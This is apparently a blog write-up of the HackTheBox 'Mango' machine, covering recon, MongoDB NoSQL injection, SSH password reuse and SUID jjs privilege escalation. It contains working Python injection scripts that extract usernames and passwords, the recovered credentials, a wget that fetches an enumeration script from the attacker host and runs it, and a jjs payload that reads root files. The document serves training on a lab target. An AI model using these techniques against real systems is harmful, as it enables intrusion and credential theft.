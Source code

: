 ```yaml
---
Title: HackTheBox Mango
Date: 2020-08-08
Category: Challenges
Status: published
---
```


Mango was an interesting box when it comes to enumeration. It taught me to look more closely and not brush off anything just because I have seen it before. The box is also a prime lesson to aggregate your recon info in a structured manner so it's easier to apply it at other points when you hit a dead end somewhere. There were also some nice opportunities for small, specialised attack scripts, which I particularly enjoyed! When we start out by scanning the box, we get the following report:

```sh
# nmap -sS -sC -oN mango.nmap 10.10.10.162
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-08 13:30 GMT
Nmap scan report for 10.10.10.162
Host is up (0.13s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
| ssh-hostkey:
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp  open  http
|_http-title: 403 Forbidden
443/tcp open  https
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after:  2020-09-26T14:21:19
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1

Nmap done: 1 IP address (1 host up) scanned in 10.49 seconds
```

When you know what to look for, it's trivial, but it took me more time than I'm willing to admit here to see the leaking domain name in the SSL certificate. Its subject points to `staging-order.mango.htb`. Port 80 is not that interesting at is just yields a permission error. Heading to the site on port 443, are are greeted with a search page:

![Image]({static}/images/screenshot-from-2019-12-08-14-32-50.png){: .image-process-article-image}

Exploring the site manually, we find an analytics frontend:

![Image]({static}/images/screenshot-from-2019-12-08-14-35-19.png){: .image-process-article-image}

On the first look, this seems to provide some interesting attack surface. Checking the source code, we only find hardcoded JSON data and file inclusions from flexmonster.com - all sample data, apparently. So we skip it as there is nothing interesting on here that is in scope. Moving on, with the `mango.htb` added to our hosts file, we can access the SSL-protected part of the site, which we got from the certificate's common name. There, we are greeted with a login panel:

![Image]({static}/images/screenshot-from-2019-12-08-17-00-27.png){: .image-process-article-image}

Logging the network requests on the page when trying some easy default candidates does not yield any success. However, thinking about the box' name, I thought that it might be a hint for MongoDB as a backend service. And the all-time classic here is attempting NoSQL injection. So I crafted a little Python script that uses form field regular expressions to enumerate the database's usernames:

```python
import requests
import string
import sys


username = ""
u = "http://staging-order.mango.htb/index.php"

def escape(c):
    return "\\" + c if c in string.punctuation else c

while True:
    sanitized = username.replace("\\", "")

    found = False
    for c in string.ascii_letters + string.digits + string.punctuation:
        esc = escape(c)
        sys.stdout.write("\r{}{}".format(sanitized, c))
        sys.stdout.flush()
        params = {
            "password[$ne]": "foo",
            "username[$regex]": "{}{}.*".format(username, esc),
            "login": "login"
        }
        r = requests.post(
            u,
            data=params,
            verify=False,
            allow_redirects=False
        )
        if r.status_code == 302:
            username += esc
            found = True
            break

    if not found:
        print("\rFound username: '{}'".format(sanitized))
        break
```

Et voilà, the usernames `mango` and `admin` show up. Armed with that knowledge, we can exploit the same vulnerability to extract the user's passwords from the database with a little variation of the above script:

```python
import requests
import string
import sys


username = "admin"
password = ""
u = "http://staging-order.mango.htb/index.php"


def escape(c):
    return "\\" + c if c in string.punctuation else c


while True:
    sanitized = password.replace("\\", "")

    found = False
    for c in string.ascii_letters + string.digits + string.punctuation:
        esc = escape(c)
        sys.stdout.write("\r{}{}".format(sanitized, c))
        sys.stdout.flush()
        params = {
            "password[$regex]": "^{}{}.*".format(password, esc),
            "username": username,
            "login": "login"
        }
        r = requests.post(
            u,
            data=params,
            verify=False,
            allow_redirects=False
        )
        if r.status_code == 302:
            password += esc
            found = True
            break

    if not found:
        print("\rFound password for {}: '{}'".format(username, sanitized))
        break
```

And we get the following output:

```
mango: h3mXK8RhU~f{\]f5H admin: t9KcS3>!0B#2
```

Logging in as either just brings us to a dead end:

![Image]({static}/images/screenshot-from-2019-12-09-12-01-55.png){: .image-process-article-image}

So we circle back to our recon results and see where we can apply this new information to make progress. Trying to log in through SSH shows that the `mango` user also exists on the server, and they have reused their password. We manage to get a shell, but no user flag. Sad. :(

But maybe the admin user exists on the machine too and just didn't enable the password on their SSH login. Running `su admin` and entering the password leads to great success and we have now secured the user flag. As admin, doing the usual enumeration game...

```sh
$ cd /tmp
$ wget 10.10.14.13/LinEnum.sh
--2019-12-09 11:34:28--  http://10.10.14.13/LinEnum.sh
Connecting to 10.10.14.13:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46476 (45K) [text/x-sh]
Saving to: ‘LinEnum.sh’

LinEnum.sh               100%[=================================>]  45.39K   138KB/s    in 0.3s

2019-12-09 11:34:28 (138 KB/s) - ‘LinEnum.sh’ saved [46476/46476]

$ chmod +x LinEnum.sh
$ ./LinEnum.sh > totallynotareport.txt
```

... we find an interesting line in the report:

```
[+] Possibly interesting SUID
files: -rwsr-sr-- 1 root admin 10352 Jul 18 18:21 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```

Indeed, interesting. Because `jjs` is a super easy point for privilege escalation when run with elevated privileges. And this one has an SUID flag! Reading up a bit on [GTFOBins](https://gtfobins.github.io/gtfobins/jjs/#file-read) (because no one can remember that stuff, seriousy), we craft the following payload:

```java
echo 'var BufferedReader = Java.type("java.io.BufferedReader");> var FileReader = Java.type("java.io.FileReader");> var br = new BufferedReader(new FileReader("/root/root.txt"));> while ((line = br.readLine()) != null) { print(line); }' | jjs
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> var BufferedReader = Java.type("java.io.BufferedReader");
jjs> var FileReader = Java.type("java.io.FileReader");
jjs> var br = new BufferedReader(new FileReader("/root/root.txt"));
jjs> while ((line = br.readLine()) != null) { print(line); }
8a8ef79a7a2fbb01ea81688424e9ab15
```

And that gives us the root flag. Awesome!
